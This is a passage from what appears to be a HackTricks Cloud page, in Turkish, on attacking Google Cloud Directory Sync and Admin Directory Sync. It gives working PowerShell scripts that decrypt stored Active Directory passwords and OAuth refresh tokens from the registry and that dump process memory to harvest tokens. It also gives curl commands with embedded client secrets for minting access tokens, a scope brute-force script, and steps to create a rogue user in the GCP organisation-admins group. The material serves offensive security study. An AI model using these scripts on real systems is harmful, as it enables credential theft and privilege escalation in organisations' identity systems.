https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Bu kapsamların bazılarını kullanarak bazı örnekler:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault**, Google Workspace için veri saklama, arama ve dışa aktarma araçları sağlayan bir eklentidir. Bu araçlar, Gmail, Drive, Chat ve daha fazlası gibi Google Workspace hizmetlerinde saklanan kuruluş verilerinizi yönetmenize yardımcı olur.

* Google Workspace Vault'taki bir **Matter**, belirli bir dava, soruşturma veya hukuki mesele ile ilgili tüm bilgileri organize eden ve gruplandıran bir **kapsayıcıdır**. Bu, o belirli konu ile ilgili **Holds**, **Searches** ve **Exports** yönetimi için merkezi bir merkez olarak hizmet eder.
* Google Workspace Vault'taki bir **Hold**, belirli kullanıcılar veya gruplar üzerinde **veri silinmesini veya değiştirilmesini önlemek** için uygulanan bir **koruma eylemidir**. Holds, ilgili bilgilerin bir hukuki dava veya soruşturma süresince sağlam ve değiştirilmemiş kalmasını sağlar.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
Daha fazla [API uç noktası belgelerde](https://developers.google.com/vault/reference/rest).

</details>

## GCDS - Google Cloud Directory Sync

Bu, **aktif dizin kullanıcılarınızı ve gruplarınızı Workspace'inize senkronize etmek için kullanılabilecek bir araçtır** (ve bu yazının yazıldığı sırada tam tersi değildir).

İlginç çünkü bu, **bir Workspace süper kullanıcısının ve ayrıcalıklı AD kullanıcısının kimlik bilgilerini** gerektiren bir araçtır. Bu nedenle, zaman zaman kullanıcıları senkronize eden bir alan sunucusunda bulunması mümkün olabilir.

{% hint style="info" %}
**`config-manager.exe`** ikili dosyasına **MitM** gerçekleştirmek için `config.manager.vmoptions` dosyasına aşağıdaki satırı ekleyin: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GCDS'yi** tespit edebilir, yapılandırma hakkında bilgi alabilir ve **hatta şifreleri ve şifrelenmiş kimlik bilgilerini** elde edebilir.
{% endhint %}

### GCDS - Disk Token'ları ve AD Kimlik Bilgileri

`config-manager.exe` ikili dosyası (GUI ile ana GCDS ikilisi) yapılandırılmış Aktif Dizin kimlik bilgilerini, yenileme token'ını ve erişimi varsayılan olarak **`C:\Program Files\Google Cloud Directory Sync`** klasöründe **`Untitled-1.xml`** adlı bir **xml dosyasında** saklayacaktır. Ancak, bu aynı zamanda kullanıcının `Documents` klasöründe veya **herhangi bir başka klasörde** de kaydedilebilir.

Ayrıca, kayıt defteri **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** içindeki **`open.recent`** anahtarı, en son açılan tüm yapılandırma dosyalarının (xml'lerin) yollarını içerir. Bu nedenle, **bunları bulmak için kontrol etmek mümkündür**.

Dosya içindeki en ilginç bilgiler şunlar olacaktır:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Not edin ki **refresh** **token** ve kullanıcının **şifresi**, rastgele üretilen bir anahtar ve IV ile **AES CBC** kullanılarak **şifrelenmiştir** ve **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** içinde saklanmaktadır (nerede olursa olsun **`prefs`** Java kütüphanesi tercihleri saklar) string anahtarları **`/Encryption/Policy/V2.iv`** ve **`/Encryption/Policy/V2.key`** base64 formatında saklanmaktadır.

<details>

<summary>Refresh token ve şifreyi çözmek için Powershell scripti</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Bu bilgiyi **`C:\Program Files\Google Cloud Directory Sync`** içindeki **`DirSync.jar`** java kodunu kontrol ederek `exportkeys` dizesini arayarak kontrol etmenin mümkün olduğunu unutmayın (çünkü bu, ikili dosya `upgrade-config.exe`'nin anahtarları dökmesini beklediği cli parametresidir).
{% endhint %}

Powershell betiği yerine, **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** ikili dosyasını `-exportKeys` parametresi ile kullanarak anahtar ve IV'yi registry'den hex formatında alabilir ve ardından bu anahtar ve IV ile AES/CBC kullanarak bazı cyberchef ile bilgiyi şifre çözmek de mümkündür.

### GCDS - Bellekten token dökme

GCPW'de olduğu gibi, `config-manager.exe` sürecinin belleğini dökmek mümkündür (bu, GCDS ana ikili dosyasının GUI ile adıdır) ve yenileme ve erişim tokenlerini bulabileceksiniz (eğer zaten oluşturulmuşlarsa).\
AD yapılandırılmış kimlik bilgilerini de bulabileceğinizi düşünüyorum.

<details>

<summary>config-manager.exe süreçlerini dökün ve tokenleri arayın</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrını kullanarak erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Kapsamlar

{% hint style="info" %}
Bir yenileme token'ına sahip olsanız bile, erişim token'ı için herhangi bir kapsam talep etmek mümkün değildir çünkü yalnızca **erişim token'ını oluşturduğunuz uygulama tarafından desteklenen kapsamları talep edebilirsiniz**.

Ayrıca, yenileme token'ı her uygulamada geçerli değildir.
{% endhint %}

Varsayılan olarak GCSD, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki betiği kullanarak `refresh_token` ile bir `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları brute-force yapmak için Bash betiği</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazma anında aldığım çıktı şuydu:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Bir kullanıcı oluşturun ve bunu `gcp-organization-admins` grubuna ekleyin, GCP'de yükselmeyi denemek için
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'
```
{% hint style="danger" %}
Yeni kullanıcıya Super Amin rolü vermek mümkün değil çünkü **yenileme token'ı gerekli yetkileri vermek için yeterli kapsamda değil**.
{% endhint %}

## Admin Dizin Senkronizasyonu

GCDS ile kullanıcıları senkronize etmenin bu yolunun ana farkı, GCDS'nin bazı ikili dosyaları indirip çalıştırarak manuel olarak yapılmasıdır, oysa **Admin Dizin Senkronizasyonu sunucusuz** olarak Google tarafından [https://admin.google.com/ac/sync/externaldirectories](https://admin.google.com/ac/sync/externaldirectories) adresinde yönetilmektedir.

Bu yazının yazıldığı anda bu hizmet beta aşamasındadır ve 2 tür senkronizasyonu desteklemektedir: **Active Directory** ve **Azure Entra ID** üzerinden:

* **Active Directory:** Bunu ayarlamak için **Google'a Active Directory ortamınıza erişim vermeniz** gerekmektedir. Google yalnızca GCP ağlarına (**VPC bağlantıları** aracılığıyla) erişim sağladığı için bir bağlantı oluşturmanız ve ardından AD'nizi bu bağlantıdan erişilebilir hale getirmeniz gerekmektedir; bunu GCP ağındaki VM'lerde veya Cloud VPN veya Cloud Interconnect kullanarak yapabilirsiniz. Ardından, dizin üzerinde okuma erişimi olan bir hesabın **kimlik bilgilerini** ve **LDAPS** üzerinden iletişim kurmak için bir **sertifika** sağlamanız gerekmektedir.
* **Azure Entra ID:** Bunu yapılandırmak için sadece **Azure'da okuma erişimi olan bir kullanıcı ile giriş yapmanız** gerekmektedir; bu, Google tarafından gösterilen bir açılır pencerede yapılır ve Google, Entra ID üzerinde okuma erişimi olan token'ı saklayacaktır.

Doğru bir şekilde yapılandırıldığında, her iki seçenek de **kullanıcıları ve grupları Workspace'e senkronize etmeye** olanak tanıyacaktır, ancak Workspace'ten AD veya EntraID'ye kullanıcı ve grup yapılandırmasına izin vermeyecektir.

Bu senkronizasyon sırasında izin verilen diğer seçenekler şunlardır:

* Yeni kullanıcılara giriş yapmaları için bir e-posta gönderin
* E-posta adreslerini Workspace tarafından kullanılan adresle otomatik olarak değiştirin. Yani, eğer Workspace `@hacktricks.xyz` kullanıyorsa ve EntraID kullanıcıları `@carloshacktricks.onmicrosoft.com` kullanıyorsa, `@hacktricks.xyz` hesapta oluşturulan kullanıcılar için kullanılacaktır.
* Senkronize edilecek **kullanıcıları içeren grupları** seçin.
* Senkronize edilecek ve Workspace'te oluşturulacak **grupları** seçin (veya tüm grupları senkronize etmek için belirtin).

### AD/EntraID'den -> Google Workspace (& GCP)

Eğer bir AD veya EntraID'yi ele geçirmeyi başarırsanız, Google Workspace ile senkronize edilecek kullanıcılar ve gruplar üzerinde tam kontrol sahibi olursunuz.\
Ancak, kullanıcıların Workspace'te kullanıyor olabileceği **şifrelerin** **aynı olabileceğini veya olmayabileceğini** unutmayın.

#### Kullanıcılara Saldırı

Senkronizasyon gerçekleştiğinde, **AD'den tüm kullanıcıları veya yalnızca belirli bir OU'dan olanları** veya yalnızca **EntraID'deki belirli grupların üyelerini** senkronize edebilir. Bu, senkronize edilmiş bir kullanıcıya saldırmak (veya senkronize edilen yeni bir kullanıcı oluşturmak) için önce hangi kullanıcıların senkronize edildiğini belirlemeniz gerektiği anlamına gelir.

* Kullanıcılar **AD veya EntraID'den şifrelerini yeniden kullanıyor olabilir**, ancak bu, **giriş yapmak için kullanıcıların şifrelerini ele geçirmeniz gerektiği** anlamına gelir.
* Kullanıcıların **maillerine** erişiminiz varsa, mevcut bir kullanıcının Workspace şifresini **değiştirebilir** veya **yeni bir kullanıcı oluşturabilir**, senkronize edilene kadar bekleyebilir ve hesabı ayarlayabilirsiniz.

Workspace içinde kullanıcıya eriştiğinizde, varsayılan olarak bazı **izinler verilebilir**.

#### Gruplara Saldırı

Öncelikle hangi grupların senkronize edildiğini belirlemeniz de gerekmektedir. **TÜM** grupların senkronize edilme olasılığı vardır (çünkü Workspace bunu sağlar).

{% hint style="info" %}
Gruplar ve üyelikler Workspace'e aktarılsa bile, **kullanıcı senkronizasyonunda senkronize edilmeyen kullanıcılar** grup senkronizasyonu sırasında oluşturulmayacaktır; bu, senkronize edilen gruplardan herhangi birinin üyesi olsalar bile geçerlidir.
{% endhint %}

Azure'dan hangi grupların **Workspace veya GCP'de izinler atandığını** biliyorsanız, o gruba ele geçirilmiş (veya yeni oluşturulmuş) bir kullanıcı ekleyebilir ve bu izinleri alabilirsiniz.

Workspace'teki mevcut ayrıcalıklı grupları kötüye kullanmanın başka bir yolu da vardır. Örneğin, `gcp-organization-admins@<workspace.email>` grubu genellikle GCP üzerinde yüksek ayrıcalıklara sahiptir.

Eğer EntraID'den Workspace'e senkronizasyon, **ithal edilen nesnenin alanını** Workspace'in e-posta adresi ile **değiştirecek şekilde yapılandırılmışsa**, bir saldırganın EntraID'de `gcp-organization-admins@<entraid.email>` grubunu oluşturması, bu gruba bir kullanıcı eklemesi ve tüm grupların senkronizasyonunu beklemesi mümkün olacaktır.\
**Kullanıcı, `gcp-organization-admins@<workspace.email>` grubuna eklenerek GCP'de ayrıcalıkları artıracaktır.**

### Google Workspace'ten -> AD/EntraID

Workspace'in kullanıcıları ve grupları senkronize etmek için AD veya EntraID üzerinde yalnızca okuma erişimi olan kimlik bilgilerine ihtiyaç duyduğunu unutmayın. Bu nedenle, Google Workspace'i AD veya EntraID'de herhangi bir değişiklik yapmak için kötüye kullanmak mümkün değildir. Yani **bu şu anda mümkün değildir**.

Google'ın AD kimlik bilgilerini veya EntraID token'ını nerede sakladığını da bilmiyorum ve **senkronizasyonu yeniden yapılandırarak bunları geri alamazsınız** (web formunda görünmezler, tekrar vermeniz gerekir). Ancak, web üzerinden mevcut işlevselliği **kullanıcıları ve grupları listelemek için** kötüye kullanmak mümkün olabilir.

## Referanslar

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın** veya **bizi Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** olarak takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
